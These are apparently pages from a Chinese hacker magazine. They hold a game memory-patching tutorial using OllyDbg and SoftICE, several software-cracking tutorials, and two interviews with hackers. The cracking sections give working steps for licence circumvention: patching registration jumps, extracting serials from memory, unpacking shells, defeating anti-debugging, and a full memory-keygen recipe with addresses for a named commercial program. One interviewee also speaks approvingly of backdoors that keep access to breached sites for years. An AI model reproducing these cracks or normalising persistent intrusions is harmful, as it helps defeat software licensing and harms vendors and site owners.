首先，我介绍一下怎样用金山游侠进行游戏修改。以红色警戒2为例，遭遇战中最缺的是 MONEY。通过金山游侠可根据金钱数值变化搜出内存地址并锁定，这样该内存区域会保持你想要的数值。最终目标是通过修改游戏程序本身来锁定内存，但前提还是先找到内存地址。

- 4. 通过基址找生命（用“+”“-”）或减生命，降低“？”搜索结果。
- 5. 找到地址并进行锁定。

当然，模糊查找耗时较长，需要耐心。大部分模糊查找最终会有 N 个数值，需要从中找出元凶（可逐个尝试），有时还不止一个数值要修改。一般实战次数多了会发现规律，如多为整数、地址相邻等。

我之所以在这里说这么多，是因为我发现很多人的帮助并不完整。如果不会使用金山游侠，后面的精彩内容就浪费了，不会用的朋友可以补习一下。

#### 二、数值查找实例

- 1. 启动金山游侠，启动红色警戒2并进入遭遇战。
- 2. 用鼠标在游戏中任意点并按快捷键呼出游侠输入框，输入数值（如 10000）回车。
- 3. 返回游戏改变该值，再次呼出游侠搜索。
- 4. 重复几次后结果会越来越少。
- 5. 选出真实地址（通常是变化最大的）。
- 6. 回到游戏体验结果。

下面还有一个更进一步的问题：如何得到红色警戒2储存某单位生命的地址？虽然我们不知道生命具体值，但可以让它增加或减少，根据变化找到目标。

#### 三、模糊查找实例

- 1. 仍然先启动相关程序。
- 2. 呼出金山游侠，在输入框输入“??”开始模糊查找（“=”“+”“-”分别表示等于、变大、变小）。
- 3. 让单位掉生命，再输入“-”并回车，逐步缩小结果范围。

#### 四、初级篇：征服天龙

所谓初级篇，就是给大家熟悉一下我修改游戏的基本思路和过程。以《天龙八部》为例：其攻击方式是半自动，每次攻击需要等待时间槽充满。时间槽没有具体数值，可以通过模糊查找找到地址。我是模糊查找了两次才搞到地址的，如图1。

图1

这些有四个地址，其实第四个才是真实的。某些情况下“4字节”识别会出错，需要结合内存字节顺序判断；按单字节或双字节查看通常更稳妥。

下面到了精彩地段了！确保游戏在战斗状态，以保证时间槽数值正在变化。按 CTRL+ESC 回到桌面，退出金山游侠，打开 OLLYDBG（金山游侠与 OLLYDBG 有冲突，可能是防破解吧），将 Dragons.exe 进程附加到 OLLYDBG 中，在 CPU 窗口左下角的16进制代码窗口中，用右键菜单“前往”→“表达”跳到 0A8817B4 处，再在右键菜单中下“硬件写入（Byte）”的断点（硬件写入断点：只要目标内存被程序写入，OLLYDBG 就会停止在修改该内存的代码的下一行。要查看硬件断点可以通过“调试”→“硬件断点”，硬件断点最多只能设 4 个）。按 F9 继续运行游戏，OLLYDBG 马上会停在修改 0A8817B4 地址的代码处，如图2。

因为这不是破解，所以程序代码非常简单明了。将 `0042730E 66.8986 94000000 mov word ptr ds:[esi+94],ax` 改为：

```asm
0042730D    E8 C0040000      call 004277D2
00427312    90               nop
00427313    90               nop
00427314    90               nop
```

再在 `4277D2` 处添加代码：

```asm
004277D2    66:B8 8200            mov ax,82
004277D6    66:8986 94000000      mov word ptr ds:[esi+94],ax
004277DD    C3                     retn
```

这样，时间槽永远为满，不用等了，当然也有弊端，按剧情发展，有些 BOSS 必须把你打死，那就等吧……

下面还是《天龙八部》，我们的目标是将物品数量永久锁定。查找就不必说了，都是些数值，一查便知。在查找前，请利用金山游侠的截图功能做一幅游戏中物品的图片，如图3，下面会用到的。

然后在桌面上模拟真实游戏进行操作，这里让主人公吃“包子”，数值减少，OLLYDBG 马上会有反应，如图5。怎样修改我就不再啰嗦了。

这里我用“包子”的地址 `0A42A370` 为例。给 `0A42A370` 下硬件断点，这时千万不要回到游戏，因为一旦回到游戏，使数值发生变化，OLLYDBG 发挥作用，游戏将会挂起，这时你会发现你什么都不能做了，因为你跳不出游戏窗口，反正我跳不出来，如果那位大虾能出来，您就把我整篇文章当垃圾吧，呵呵。

怎样实现在游戏窗口外使数值起变化呢？经过认真分析，我找到了一个变通的办法。《天龙八部》的鼠标控制方式有些特别，它是通过不断捕获鼠标的屏幕位置来确定你点击的位置的，即使你跳回到桌面，这个过程依然有效。换句话说，即使你跳回桌面，你依然可以控制游戏，哈哈，聪明的你一定想到了。好，废话少说，抄家伙。将你上面截的图设置成桌面壁纸，记着，一定是平铺模式，游戏的分辨率为 640×480，而现在的电脑没有用 640×480 大小的桌面的吧，如图4。

#### 五、中级篇：永远的喜欢，永远的钱钱

好，上面的都是基础知识，如果你已经都学会了，我们就一起来学习一下稍微普遍的方法。因为《天龙八部》太特殊了，并不是人人都玩过，即使玩过，它的特殊处理方式也不适合所有游戏。所以下面我们以《红色警戒：尤里的复仇》为例，讲解一下。

用 OLLYDBG 破解游戏的普遍的方法。

当然，这个方法并不适合所有人，你需要额外的硬件支持：两个显示器。我是用的电视机+显示器的方法实现的双显示功能。我将桌面扩展到电视机上，成为两个桌面，如图6。

图6

这样就解决了一个棘手的问题，我们实现了一个桌面显示游戏，而另一个桌面显示 OLLYDBG。我们不用再担心游戏挂起了。仍然用金山游侠查找游戏的金钱地址……回到游戏，这时游戏会挂起，这时从第二个显示器中控制 OLLYDBG，找到关键代码进行修改，如图7，将 `4F96D9` 这行的代码 NOP 掉就可以了。

图7

我们可以用这种方法修改许多单机版游戏，但这里还有一个问题，如果你按上面的方法试了，你会发现，每次游戏被 OLLYDBG 挂起后再被运行，游戏会立刻最小化……这种游戏不能被最小化。

最小化，一旦最小化游戏便挂起，再最大化后是一片黑屏。这样我们无法调试游戏，因为 OLLYDBG 与游戏是平等的普通应用程序。不管打开多少窗口，它们拥有且仅有一个是活动的。任何对 OLLYDBG 的操作都会使游戏失去焦点，从而使游戏挂起。

导致游戏挂起的原因是 DX 的工作方式。每个用到 DX 的游戏都会独占屏幕（当然也有窗口模式的，但是很少）……但是 OLLYDBG 不支持 DX 直接弹出，因此我们必须想一个方法，既不会破坏游戏的活动状态，也可以控制 OLLYDBG。

#### 六、高级篇：我的游戏我作主

我没有找到这种方法。显然，由于 OLLYDBG 的局限性，以上的方法已经使 OLLYDBG 发挥到极限了。于是我想到了 SoftICE，它工作在系统底层，这个调试器曾经是 Cracker 的最爱。

由于 SoftICE 比 OLLYDBG 复杂，安装及使用的细节方法真是一言难尽……我们以轩辕剑4人物的生命为例，讲解一下寻找关键代码的过程。

首先，安装好 SoftICE。然后用金山游侠查找储存人物生命的地址 ECCDC0。再用“CTRL+D”呼出 SoftICE，对这个地址下断点。命令是：`BPMB ECCDC0 W`（相当于 OLLYDBG 的硬件断点）……跳到 `4EE10E` 处，得到以下代码：

```asm
004EE100  >  8B55 FC        mov edx,dword ptr ss:[ebp-4]
004EE103  |  66:8B42 08     mov ax,word ptr ds:[edx+8]
004EE107  |  66:2B45 10     sub ax,word ptr ss:[ebp+10]
004EE10B  |  8B4D FC        mov ecx,dword ptr ss:[ebp-4]
004EE10E  |  66:8941 08     mov word ptr ds:[ecx+8],ax
004EE112  \> E9AA000000     jmp swd4!004EE1C3
```

将这一行代码 NOP 掉就可以了。

这样就实现了主角的生命无限。如果你已经熟练使用 OLLYDBG，那么 SoftICE 应该可以很快上手。

#### 七、小结

写完这篇文章后，我感觉内容好像有些空洞，但当我想再充实一下的时候，发现要讲的东西非常多（像 SoftICE 我只是提了一下，没有深入讲解）。因此，我希望我的这篇文章能起到抛砖引玉的作用。通过上面的例子，我们可以看出修改游戏有三步：首先，找到存储数据的内存地址；然后，在此内存地址上下硬件……断点，找出修改该内存地址的代码；第三，修改代码。但是其真正修改起来不是这么容易。双显示器法是我被逼无奈而想出的方法，但确实很好用，特别是对 SoftICE 不熟的人。用 SoftICE 破解则是最普遍的方法，但不如 OLLYDBG 方便。现在，许多游戏都有恢复代码，不用担心最小化挂起的问题，因此用 OLLYDBG 还是比较普遍的。如果有哪位大虾会更好的方法，一定要贡献呀！

另外，对于《红色警戒：尤里的复仇》金钱的修改方法并不是很完美。将那一行代码 NOP 掉后，整个减少钱数的代码就不但作用了，换言之，游戏中任何减少金钱的动作都是无效的。那么，敌人岂不也是无限金钱。其实我们完全可以给程序添加一个识别存储地址的代码片断。游戏刚开始时电脑会得到 50000 块大洋（太黑了），根据这个不同，我们设计一段代码，识别我们的金钱存储地址，并且仅对这个地址修改即可。但是本人水平有限，只能提供一下思路了。对于网络游戏（包括联机对战这类游戏），由于所采用的技术是不同的，因此本文的技术只适用于单机版游戏。

（文中涉及到的相关软件及附录在光盘中有收录）

### 小议软件破解与反破解

Burgess

以前也看过不少关于破解的文章，不外乎以下几种。

### 一、暴破

就是找到关键跳，然后把等于改成不等于，把不等于改成等于，或者干脆改成无条件跳。关于这种方法，关键是找到关键跳。大致过程如下：在注册框的注册码里随便输入，点确定。绝大多数朋友会和我一样看到注册失败等字样，如图 1。记住它，然后用反汇编工具（如 C32Asm）打开程序，如图 2，依次点击参考→串式数据参考，从中找到你刚看到的注册失败字样，双击后就会来到关键跳附近了，然后向上不远处就会看到我们梦寐以求的关键跳了。Remember it。接下来用任一款十六进制编辑器对原文件进行改写，如图 3，就是把汇编代码的十六进制数的 74 改成 75，84 改成 83 就 OK 了。最后点保存，然后再运行修改后的程序，在注册框里还是随便输入，点确定，OK，恭喜你，注册成功了吧？


#### 二、在内存中找注册码

在注册框里随便输入，然后点确定。虽说风水轮流转，可是如果现在还没有轮到你的话，那也不要郁闷，Follow me 吧！这时你看着那个讨厌的注册失败字样的东西不理它就是了。然后打开十六进制编辑器，载入程序，然后 Ctrl+F 查找我们讨厌的注册失败字样，找到后一般是往上看，不远处就会看到注册码样的东西，记下它。然后再重新注册软件，只是这回把刚刚找到的那些字符串填到注册码框里，再点确定，OK，再次祝贺你，我们又成功了！


#### 三、利用调试工具

如果你有一定汇编知识的话，你可以使用调试工具在寄存器里找到注册码。当然，如果你已经是个很有经验的高手，则可以在调试工具里看程序流程，然后找到算法，再写出算法注册机来。

下面先来说一下在调试工具里找注册码的大致步骤。先找到关键跳，然后打开调试工具，如 OllyDbg，个人比较喜欢用 OD，如图 4。


## 神秘园

载入程序后，Ctrl+G，填入关键跳的偏移地址，点确定就来到关键跳了，把上面几行都设为断点，然后 F9 运行，就会断在刚设的断点处了。这时注意看右边各寄存器里的值，如果没有类似注册码的东东就按 F8，直到找到注册码，然后就是验证注册码是否正确了。高手呢，就会跟进关键跳上的一个或几个 CALL 里去看注册流程，然后找到注册码的算法，然后就可以用各种语言来写算法注册机了。当然，如果你不会编程，而又很想做注册机可不可以呢？答案是肯定的，你可以做内存注册机，如图 5。

其中，中断地址就是关键跳之前你找到注册码的那个 CALL 的地址，中断次数一般是 1，第一个字节就是那个 CALL 的汇编代码的十六进制的第一个字节，指令长度就是 CALL 的汇编代码的十六进制的长度。寄存器方式中选你看到注册码的那个寄存器，这样就可以了。用法是把这个做好的内存注册机和程序放在一起，然后运行内存注册机，同时程序也运行了，在注册码框里随便写，点确定后就会看到真正的注册码了，怎么样？是不是很方便啊？


另外，第 9 期中“软件破解与反破解”一文中的“施放箔条”反破解也很不错，值得借鉴，而且它的比喻也很生动，用箔条来干扰导弹。不过，对于不同的目标来说，我们可以用不同的制导导弹的啊！当然了，我们这里讨论的不是导弹，在此我只是稍稍提一下破解“放箔条”的方法，可以在 TRW2000 中用 bpx hmemcpy 来下断，然后再 bpc * 等来做。只是 TRW2000 有些不太好用罢了。不过，从原文中所写的代码来看，还是可以用 bpx GetDlgItemTextA 来破的，大家可以看看它写的代码。

里面用的箔条只不过是用了些随机函数来扰乱关键跳的跟踪，也就是说，真正计算注册码时候还是读取了我们在注册码框里填的假注册码。这时只要用 bpx GetDlgItemTextA 来下断的话就可以轻松搞定了。不过，如果我们要是在随机函数那里也取假注册码的话，那么这样下断就行了，具体代码我就不多写了，这里只参照它的代码稍做修改。

```pascal
Var code:string;
    i1,i2:integer;
    s1,s2:string;
begin
  // 假注册码诱骗
  For i:=1 to 100 do
  Begin
    i1:=random(asc(edit5.Text+7));
    i2:=random(asc(edit5.Text+7));
    s1:=inttostr(i1);
    s2:=inttostr(i2);
    if transfer(s1)=transfer(s2) then
      label3.Caption:='注册成功' else
      label3.Caption:='注册失败';
  end;
  // 诱骗结束
  code:=transfer(edit5.Text);
  if edit6.Text=code then
    image1.Visible:=true
  else
    image2.Visible:=true;
end;
```

不过，现在几乎所有的共享软件都加了壳，所以，破解之后都必须把壳脱掉。你可以用 PEiD 来查壳，如图 6。


你可以用它的扩展中的通用脱壳工具来脱壳，如果脱不了，你可以找一些脱壳工具。如果找不到的话，那么没办法了，只好手动脱壳了，使用 OD 可以很容易地做到，只是需要一定的汇编基础。限于篇幅我就不多说了。

下面来说说反破解的问题。看了第 9 期的黑客 X 档案后，发现了一些问题，如有不对的地方，还请大家指教啊！第 9 期“如何防范暴破”一文中的利用程序代码—F（注册码）方法很好，只是这也增加了程序的复杂度。而且，稍有些破解经验的也可以使用调试器找到暴破点。就是通常断点 bpx GetDlgItemTextA（如果你用 TRW2000 的话可以用 bpx hmemcpy 来下断，不过它只能在 Win9x 下使用）。

其实不管怎样，在内存中总还是会有注册码进行比较的地方的，要不然怎么知道你填的注册码是真的还是假的呢？当然在第 9 期“软件破解与反破解”一文中用图片来代替字符串防找关键跳从而进行暴破的方法也可以。近来也出现不少填入注册码之后需要重启进行验证的共享软件，这种情况也是需要进行比较的，只不过是把你填的注册码放在注册表或者一个文件里，然后再次打开程序时从中读出来再和真正的注册码进行比较。

当然，防止程序被脱壳也是一种方法，可以自己写加壳工具，也可以在程序中加入自动验证程序大小的语句，这样在调试器中被 DUMP 的时候就可以自动退出。只有高手中的高手才会在静态反汇编中看到这样的代码，也可以用 CCL 把那段找出来，然后 NOP 掉。当然我说的是只有高手中的高手才可以的，所以说这也算为一种不错的防止破解的方法。

如果你可以写出反跟踪的代码来也是可以。比如以前的 X 档案中的“杂交鉴定”一文。不过，前几天我在网上没事闲逛时发现了个新的 OD：OllyDbg.V1.10 玲珑听雨汉化第二版 + XP 界面 flyODBG 修改版 + 诸多插件。用这个工具做你的调试工具，那么你这段辛辛苦苦写的代码也就成了无端的摆设了，它可以对这些代码进行过滤，那么你就可以大胆把程序大卸八块了。

最后，我还要说几句，破解就是找到程序的流程然后从中做文章。你可暴破，也可以从内存中找注册码，再者也可以自己写注册机来，方便大家使用。不过，我们学习破解只是来学习软件的思路，从中你会学到很多书上找不到的东西。相信对于你以后的编程会有非同凡响的作用的。

保证软件的正确使用。我们可以从加壳开始，加一个少见的壳，最好是自己写的壳，不过一般你要是新手的话就不要自己写了，因为你写出来的壳的压缩率是个问题，而且你没有新颖的思路来反脱壳，所以用调试器一 DUMP 就反暴破了。

你可以选择加一个好壳 + 反暴破（当然只是加大暴破的难度了，目前为止我还没听说有什么好的方法可以防止暴破的）+ 防脱壳 + 防调试等等手段，从而更好地维护自己的权益，呵呵。

> （本文涉及到的软件 G32Asm、KeyMake、OllyDbg.V1.10 玲珑听雨汉化第二版 + XP 界面 flyODBG 修改版 + 诸多插件、PEiD、WinHex，光盘有收录）


众所周知，对于注册算法中出现注册码明文的软件来说，我们找到关键点就可以制作其内存注册机了。

然而对于注册算法中没有明文出现的软件来说，一般就很难做出内存注册机了，要不就是暴破，要不就是弄出算法注册机来。那么有没有可能在这种情况下也做出内存注册机来呢？只要稍微开动一下脑筋，没有什么是不可能的。

下面这篇文章仅仅是抛砖引玉，只要读者你发挥创意，相信也会让软件乖乖吐出它的注册码来。“IC、IP、IQ 卡，通通告诉我密码！”

文中方法对于注册算法可逆而且是 f(注册码)=机器码 这种形式的软件有效，当然你也可以举一反三（都说是抛砖了，引玉就靠自己了）！

软件名称是水中题库管理系统 V1.55，破解工具是 ASPackDie、OllyDbg、KeyMake、PEiD。

破解过程：用 PEiD 查出软件加的是 ASPack 的壳，用 ASPackDie 轻松脱去。用 PEiD 查出脱壳后，软件原来是用 VB 写的，那么 VB 最经典的软件字符串的断点当然是 vbaStrCmp 了。用 OllyDbg 载入脱壳后的程序，运行程序。输入用户名：HackXFile，在注册码框中输入假注册码 787878787878787878787878，本机的识别码是：89827837，返回 OllyDbg，按下快捷键“Ctrl+N”，在 MSVBVM60.__vbaStrCmp 上右键，选择“在每个参考上设置断点”。点击注册按钮程序中断，然后来到关键算法处：

```asm
00582915  BB55E4              mov ecx,dword ptr ss:[ebp-1C]
00582918  8B45E8              mov eax,dword ptr ss:[ebp-18]
0058291B  52                  push edx
0058291C  50                  push eax
0058291D  E8 ...              call Unpacked.004FFEC0
...
MSVBVM60.__vbaStrCat
MSVBVM60.__vbaStrCmp
...
004FFF81  66 3B45 D8          cmp ax,word ptr ss:[ebp-28]
004FFF85  0F8F ...            jg ...
...
```

## 神秘园

```asm
; MSVBVM60.rtcMidCharBstr
004FFFAB  8BD0              mov edx,eax
004FFFAD  8D4DCC            lea ecx,[ebp-34]
004FFFB0  FFD3              call ebx
004FFFB2  50                push eax
004FFFB3  FF15 5C104000     call dword ptr ds:[...]

; MSVBVM60.rtcAnsiValueBstr
004FFFB9  8D4DCC            lea ecx,[ebp-34]
004FFFBC  8BF0              mov esi,eax
004FFFBE  FF15 68134000     call dword ptr ds:[...]

; MSVBVM60.__vbaFreeStr
004FFFC4  8D4DBC            lea ecx,[ebp-44]
004FFFC7  FFD7              call edi
004FFFC9  6683FE20          cmp si,20
004FFFCD  0F8C B3000000     jl Unpacked.00500086
004FFFD3  6683FE7E          cmp si,7E
004FFFD7  0F8F A9000000     jg Unpacked.00500086
...
00500046  66055F00          add ax,5F
0050004A  0F80 9F000000     jo Unpacked.005000EF
00500053  66052000          add ax,20
...
00500062  FF15 3C124000     call dword ptr ds:[...]
```


大体的算法分析如下（以下所说数据皆为 16 进制）：每次取出注册码一位，然后转成 ASCII 码，比较 ASCII 码是否在（20 和 7E）之间，也就是可显示的 ASCII 范围，接着将 ASCII 码减 20，然后再减去一个随机数，结果如果小于 0 就加上 5F，如果大于 0 就加上 20，然后把结果转化成 ASCII 连接起来，就得出了将要与识别码比较的字符串。

好了，既然这样，内存和寄存器中就没有出现注册码的明文，我们如何制作它的内存注册机呢？我们这样来推理：f（真实注册码）= StrCat(StrCat(识别码,识别码),识别码)，那么 f⁻¹(StrCat(StrCat(识别码,识别码),识别码)) = 真实注册码，其中 f 为注册算法，f⁻¹ 为注册算法的逆算法。只要将注册算法变成逆算法，然后在注册码输入框中输入 3 次识别码，这样一来便可以得出程序原本的真实注册码了。下面我们就来改造程序，让注册算法变成逆算法，让程序乖乖吐出它的真实注册码：


这样一来，程序的注册算法就变成逆算法了，仔细考虑一下就知道了，很简单。现在我们就可以在比较字符串函数上面的 00582922 处的 eax 中看见真实注册码了，接下来就可以制作内存注册机了。

- 内存注册机：
- 中断地址：00582922
- 中断次数：1
- 字节长度：2
- 第一字节：8B
- 注册码：内存方式 → EAX 宽字符串

这样我们打到了一回注册码，希望本文能带给你一份新的思路。


## 黑客入侵面对面

## 黑客人物面对面

### 我的黑客明星——winky 采访记

在黑客这个神秘的圈子里，年龄是不重要的，重要的是技术水平及资历。本期中要采访黑客 winky。虽然只有 23 岁，但是却已算是成名多年，连徒弟都有好几个了。

**sagi：** winky，可能现在许多的网络安全爱好者都没有听说过你的名字，先来简单地介绍一下自己吧！

**winky：** 好的，我是 WinKy，今年 23 岁，河南驻马店人，1999 年接触的中国互联网，出于对黑客的好奇和技术的热爱，当年后就加入了中国黑客联盟，至今仍为中国黑客联盟的发展而努力。

**sagi：** 1999 年接触的网络安全，也够早的了；那么你现在是从事什么工作的呢？

**winky：** 我一直都是在与网络安全和网络编程有关的公司里做事。

**sagi：** 最初你是因为什么原因而喜欢上网络安全技术？

**winky：** 和大部分人一样，最初是在刚学会上网的时候看到别人都有自己的个人主页，挺羡慕的，于是自己也就学着做，之后因为网站及脚本的安全性，让我对黑客技术有了一点儿了解；由此对黑客技术产生了莫大的兴趣，接着就加入到了中国黑客联盟，从那个时候开始真正学习黑客技术。

**sagi：** 我想，早期的黑客大战你或许也参与过吧！

**winky：** 1999 年的黑客大战我只是有所耳闻，没有亲自参与，2000 年开始起有很多大战都有一些参与的。

**sagi：** 你认为那时的技术水平，与现在的技术水平有什么区别及特点呢？

**winky：** 那个时候的技术水平和现在的技术相比，没有严格的区别。最初的时候，黑客这个字眼很神秘，知道的人不像现在这么多，很多高手都是很低调地研究着深层的技术，并且因此而开发出很多著名的软件，比如“冰河”等。现在，出自原创的软件确实很少，真正去学习技术的人不是很多，尤其是现在因为脚本注入的盛行，许多脚本小子出现，他们几乎都没有学过汇编、单片机、破解技术，严格说来，现在的技术含金量比较少。

**sagi：** 那么，最近一两年，网络攻击的特点又是什么呢？

**winky：** 要说起来，不能说最近一两年，要从中美黑客大战以后算起，中国就已经开始意识到网络安全的重要性。这一点从近年来网络安全公司的发展就能很容易看出来。由于近年来计算机系统漏洞的发现速度加快，大规模蠕虫攻击不断爆发，计算机网络安全状况不容乐观。目前的计算机网络攻击具有攻击源相对集中，攻击手段更加灵活，攻击对象的范围扩大。虽然安全技术比过去有所进步，人们的安全意识也有所提高了，但是网络中的攻防力量仍存在此消彼长的动态过程。攻击手段更加灵活，新的应用范围也成为攻击目标，比如 WAP 平台蠕虫病毒等。

**sagi：** 是的呀，虽然 Windows 系统的安全性比起以前有了很大的提高，但是同样的，新的漏洞却从未减少过，而且利用系统漏洞的蠕虫病毒攻击也是不断地出现，再加上脚本漏洞的盛行以及新的钓鱼式攻击流行等，网络安全的现状，不但未见好转，反而是比起前几年更加地严峻。对于防范这些攻击，你有什么好的建议吗？

**winky：** 根据网络安全防范体系层次的不同，重点也有所不同。我们要及早发现系统存在的攻击漏洞，及时安装系统补丁程序，以及不断提升网络安全策略，能够有效抵御一部分攻击；并且，多多关注病毒警报，就像关注天气预报一样去了解网络中的安全动态。如果从事保密工作，更应该注意对蠕虫病毒的防范。

**sagi：** 目前国内的网络安全初学者，大多是高中生等，他们都没有系统地学习过计算机及程序语言，因此，他们在学习中，会感觉到有些吃力，你是如何看待这个问题的。

**winky：** 网络安全初学者在国内是一个很大的群体，大多都是因为好奇、崇拜才加入到安全技术学习的行列中来的，基础并不是很好，尤其是在进行系统级别的安全操作的时候，都会因为基础不好而困惑。所以，学校仍然是学习的好地方，我希望大家都不要放弃学业；既然选择了自己喜欢的东西，那么就要把它学好。大学一定要上，起码要把你需要的东西学到手，否则无法进行深层次的学习。

**sagi：** 要想提高国内的整体网络安全技术水平，最重要的一点就是要普及网络安全意识，使公众对于网络安全及黑客有一个正确的认识。但是目前的媒体上报道的大多是某某黑客因为入侵而被抓之类的新闻，极大地误导了公众对于黑客的理解。也因此，使得普及显得任重道远。可以说，只有很少数家长是同意自己的孩子来学习网络安全技术（黑客技术）的。因为，这些技术，对他们来说甚至就意味着犯罪，你认为如何才能解决这个问题呢？

**winky：** 这个要从黑客文化来分析了，老鹰在鹰派联盟章程中……

## 黑客人物面对面

倡导的是一种健康的黑客文化，努力让黑客可以建设者的身份回到现实，而不仅仅是破坏。在我看来，除了具备一些网络上已经告知的基本功以外，还需要具备良好的道德、素质和忧患意识，以良好的形象让公众了解黑客、理解黑客。因此，我们中国黑客联盟华北站目前正在着手在黑客文化方面做出形象，让大家真正看清楚黑客的文化状态，黑客不光是需要技术的，还要有文化的支撑，才能形成一个完整的结构。

良好的道德对于一个黑客来说，尤其是追求技术的黑客来说是尤其重要的。你有技术，别人来求你帮忙黑站、盗取QQ等等，你能满口答应么？如果没有素质，即使你有再好的技术，也是危险的。比如说你有技术，以此为豪，不负责任地攻击别人，造成个人及企业单位的隐私和安全遭到破坏，你能心安么？再说一下忧患意识。黑客本身就不是以攻击为主，发现漏洞，利用漏洞达到某种等级的目的，并发布漏洞及解决办法，这才是有道德、有素质，这才体现到共享的精神。忧患意识就是讲你不能抱着一个自己发现的漏洞不公开，甚至以此为武器威胁别人，使别人受到损失。

这些都不是我们想要的，也不是我们想看到的，所以，现在，我们要提出道德、素质和忧患意识，并要把这个观念深入人心，让公众了解、理解并接受黑客的存在，才能让黑客这个群体生存下去，从而让安全也一直不断发展、成长下去。

**sagi：** 对于目前许多黑客站点，比如黑客基地、华夏黑客联盟等实行的会员收费；你是如何认为的，或者说，是提倡那种原始的黑客共享精神，还是认同这种收费呢？

**winky：** 黑客团体实行会员收费，本身是不违反共享精神的，不是说是黑客就一定要无条件地把所有的工具、软件都拿给大家用才叫共享。

是一个人出资，实行会员制的话，首先要能解决一些日常支出，做会员也是有一定的好处的，比如隔一段时间进行聚会讨论等等，这些其实都是在黑客组织迈向商业化的一个前兆。

**sagi：** 听说，你有许多徒弟，能简单介绍一下吗？

**winky：** 呵呵，我徒弟并不是很多，比起冰血封情的秋血派系，实在是小巫见大巫了。我只有三个徒弟，大徒弟BlackOne是以文采见长，对黑客文化有独到的见解；二徒弟寒夜孤风非计算机专业，是法律专业，但是在网络安全攻击方面也有自己的一套；三徒弟目前还在学习中，不算出师，呵呵！

**sagi：** 能谈谈当初收徒的经过吗？

**winky：** 当初收徒弟，是在创鹰的QQ群里面，因为聊得多了，两个人就要拜师，在大家的起哄下，就收了2个徒弟，呵呵！我也实在是不会带徒弟，所以对他们的要求不是很多，完全是自由发展，自己喜欢什么就学什么，我没有什么强项，但是我的朋友有强项，我可以找他们来帮助我的徒弟学。

**sagi：** 收了徒弟，自己不教，却要他跟别人学，你这个老师倒也够绝的了，不怕徒弟们说你吗？

**winky：** 当然不是不管，这是一个碰到自己都不明白的东西，为了追求精粹，确实，这样是有必要的。

**sagi：** 在网络上，许多新手都想有一个好老师，但是有许多高手都是很少收徒弟的，在他们认为，自学，是最重要的了。那么，拜师及自学，你又是怎么认为的呢？

**winky：** 我想对于学习技术来说，老师不一定就是很好的进步，也许老师并非是一个好老师，比如说我，什么都知道一点，但是什么都不精通，会误人子弟的，呵呵！同样的，自学能够加深印象，在学校里的自习课就是让学生自己去学习、自我领悟、理解，这样学起来能够有很快的速度。

所以说，只要你能够让自己很快提高，自学并不一定就比有老师的朋友学得慢，完全是自学的学习能力。在这点我想安慰大家几句：没有老师，你依旧可以成材，相信自己！

**sagi：** 你的这段话，对于许多急于拜师却又拜师无门的网络新手来说，无异于雪中送炭，会重新燃起他们学习的信心，对于他们的学习也是一种很大的鼓舞！

**winky：** 我也是从新手过来的，深深理解他们，并且支持他们的学习。

**sagi：** 最后，能否透露一下你的联系方式呢，可能有许多网络安全爱好者会向你请教问题的，当然想拜师的可能会更多。

**winky：** 好的，我常用的QQ已经满员了，大家可以通过MSN和我联系：BanTeam@MSN.Com，不过拜师的话还是尽量不要了吧，我也要工作的，不可能每天及时帮大家解决问题，还是那句话：相信自己，学习靠自身，多动脑筋多搜索，都会找到自己想要的答案的。

**sagi：** 好的，感谢winky接受我们的采访，也感谢winky对新手们的建议！

**winky：** 谢谢黑客X档案的关注，同时大家也要记得，我们中国黑客联盟在近期将会有一些调整，希望大家多多关注！

### 职业“黑”客

-pinkeyes

pinkeyes，今年24岁，现在广州从事网络安全检测工作，大家可以把他的工作简单地想象成授权或合法的“黑”网站，当然“黑”的目的是为了找出对方存在的安全漏洞。LCX曾与pinkeyes在北京一起共事过。

我同pinkeyes认识是在04年的五一，那次我们一起吃了顿饭，还有LCX、沙沙姐姐等人。后来，经过路边的商场时，看到在搞家电促销活动，于是，我和沙沙姐姐自告奋勇地上去参加“最多一口气折六次奖”，我赢得了活动的奖品——TCL固定电话一台！呵呵。

早期，pinkeyes曾经给X档写过一些稿件，老读者应该都还记得，不过，现在的新读者们可能已经没有印象了。本期，就让我们来认识一下pinkeyes。

**sagi：** pinkeyes，你是江苏无锡人吧，是什么时候离开无锡的呢？

**pinkeyes：** 在大四上半学期，我用了一个星期的时间把毕业设计做完了，然后就向导师请求放我出狱，就这样，我就离开无锡，到了北京。然后没过多久，就是我们那次聚会了。

**sagi：** pinkeyes，你最早是什么时候接触网络安全的？

**pinkeyes：** 应该是在大二。大一时学校里还没有网络，所以先搞的软件破解，后来大二下半学期宿舍有网络了，就开始接触这方面的东西了，那时也不好好读书了，都是自己买书看，一到上课就拿本自己想看的书去看。

**sagi：** 那时你的同学及老师知道你学习网络安全（黑客）技术吗？

**pinkeyes：** 我宿舍的哥们都知道，但老师不知道，直到我毕业答辩时选的网络安全这门，我才明白学校所命题的网络安全这门课并不是真正意义上的网络安全。

**sagi：** 那当时学校所命题的网络安全是什么呢？

**pinkeyes：** 好像是什么指纹识别、虹膜识别的，所以我就找导师商量，能不能自命题，后来导师就同意我自己命题写了，我写的是“网络安全——矛与盾的较量”。答辩时比较搞笑，我在上面说完了，主管老师第一句话是说，你说得我们是云里雾里。因为我当时是以自己学校的一些服务器存在的安全问题为例的，那些管网络的老师还是比较……的，但是他们后来还是让我的论文进行优秀论文的第二次答辩。

**sagi：** 可他们根本不太懂，怎么提问呢，对你的回答就更不懂了呀？如何评价好坏呢？

**pinkeyes：** 第二天早上我去了，但因为学校老师没到全，所以又把我推到下午答辩，气得我下午就没去，和同学打了一下午的牌。可能是因为他们觉得我能进服务器，有事实作证，论文应该是不错吧！

**sagi：** 厉害，最后居然没被老师骂的。

**pinkeyes：** 所以那次优秀论文最后也就没我的份了！

**sagi：** 你是从什么时候开始研究脚本的？

**pinkeyes：** 是从大三时开始研究脚本，那时挺流行搞这个的。

**sagi：** 你大三时，那是03年，当时，脚本在国内刚开始流行，你也算是接触脚本比较早的一批了。你是如何看待脚本安全的呢？

**pinkeyes：** 就以现在的眼光来看脚本安全，它的特点就是攻击方式比较灵活，在防火墙大行其道的今天，比系统漏洞的攻击有很大的优势。现在大家都是使用的Windows系统，微软又推出了24小时补丁更新机制，所以现在对系统漏洞的攻击越来越困难，因为据我了解，以前被入侵的很多大公司网站都是打的时间差。

**sagi：** 就是漏洞公布后，在对方打上补丁程序前被攻破的？

**pinkeyes：** 嗯，一般都是赶写exp（溢出程序）。另外扯一句，一个好后门也很重要，有的两年前用时间差入侵的网站，后门留得好，现在还有权限呢。国内也有牛人，搞系统底层的，自己发现系统漏洞，但也不会随随便便公布出来。

**sagi：** 是的，这是现实情况。
